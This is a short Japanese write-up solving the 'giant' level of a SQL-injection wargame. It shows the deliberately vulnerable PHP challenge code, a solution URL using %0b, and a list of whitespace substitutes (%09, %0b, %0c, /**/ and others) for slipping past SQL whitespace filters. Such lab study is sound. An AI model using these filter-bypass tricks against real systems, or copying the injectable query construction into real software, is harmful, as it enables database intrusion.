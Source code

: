 # giant

## answer

```
https://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0b
```

## problem

```
query : select 1234 fromprob_giant where 1

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

## memo

```https://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=1```とかで試してみる。

```query : select 1234 from1prob_giant where 1```となった。

コードを読んでいく。

```
if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
```
空白文字をフィルタリングする場合に、```%09、%0a、%0b、%0c、%0d、%a0、/**/```を使用して、空白文字を置き換えることができる。

```%09、%0a```はフィルタリング、```%a0```は成功せず、```%0b、%0c```は成功

```
?shit=%0b
```

で速攻クリア。

なんかおしゃれ

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)
